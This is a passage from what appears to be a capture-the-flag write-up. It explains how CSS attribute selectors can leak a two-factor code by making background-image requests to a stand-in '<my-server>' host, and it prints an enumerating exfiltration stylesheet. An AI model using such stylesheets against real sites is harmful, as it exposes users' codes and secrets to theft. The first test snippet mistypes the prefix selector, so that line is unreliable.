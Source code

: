 I did some Google searching to see what kind of stylish attacks could be pulled off with nothing but CSS. This reference was a big help: https://www.mike-gualtieri.com/posts/stealing-data-with-css-attack-and-defense.

The gist of it is, you can determine what content is on a page by applying a style to it, and sending a network request as part of the style. We can assume that the 2 factor code is displayed in an `input` type element for easy selecting by the user.

As a little test, we could create an HTML file:
```html
<input value="secret">
```

and a CSS file:
```css
input[value="^s"] { background-image: url("<my-server>/s"); }
```

This style applies to all input elements that have a value beginning with `s`. When we open the HTML file, the server will receive a request for `s`. It won't know what to do with that request, but that doesn't matter. We received a piece of information that the input begins with `s`. The blog post goes into a lot of detail into how to create a css file that can go through all the permutations needed to work out the full input. Let's move on for now, back to the challenge at hand.

I generated a stylesheet looking like this to find out what the 2 factor code started with:
```css
input[value^="1"] { background-image: url("<my-server>/1"); }
input[value^="2"] { background-image: url("<my-server>/2"); }
input[value^="3"] { background-image: url("<my-server>/3"); }
...
input[value^="A"] { background-image: url("<my-server>/A"); }
input[value^="B"] { background-image: url("<my-server>/B"); }
input[value^="C"] { background-image: url("<my-server>/C"); }
...
input[value^="d"] { background-image: url("<my-server>/d"); }
input[value^="e"] { background-image: url("<my-server>/e"); }
input[value^="f"] { background-image: url("<my-server>/f"); }
...
input[value^="!"] { background-image: url("<my-server>/!"); }
input[value^="@"] { background-image: url("<my-server>/@"); }
input[value^="#"] { background-image: url("<my-server>/#"); }
...
```

After submitting my stylesheet, I got some pings on my server!

![img](images/server-css.PNG)
